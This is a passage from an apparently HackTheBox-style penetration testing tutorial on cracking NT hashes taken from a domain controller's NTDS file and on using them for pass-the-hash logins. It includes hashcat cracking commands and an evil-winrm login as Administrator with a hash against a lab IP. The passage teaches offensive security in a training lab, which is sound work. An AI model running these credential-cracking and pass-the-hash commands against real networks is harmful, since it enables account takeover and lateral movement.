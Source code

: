 ```shell-session
NTDSUTIL    10.129.201.57   445    DC01          [*] To extract only enabled accounts from the output file, run the following command: 
NTDSUTIL    10.129.201.57   445    DC01          [*] grep -iv disabled /home/bob/.nxc/logs/DC01_10.129.201.57_2025-04-25_084640.ntds | cut -d ':' -f1
```

## Cracking hashes and gaining credentials

We can proceed with creating a text file containing all the NT hashes, or we can individually copy and paste a specific hash into a terminal session and use Hashcat to attempt to crack the hash and a password in cleartext.

#### Cracking a single hash with Hashcat

```shell-session
Ovas420@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

What if we are unsuccessful in cracking a hash?

## Pass the Hash (PtH) considerations

We can still use hashes to attempt to authenticate with a system using a type of attack called `Pass-the-Hash` (`PtH`). A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`. Here is an example of how this would work:

#### Pass the Hash (PtH) with Evil-WinRM Example

```shell-session
Ovas420@htb[/htb]$ evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```

We can attempt to use this attack when needing to move laterally across a network after the initial compromise of a target. 
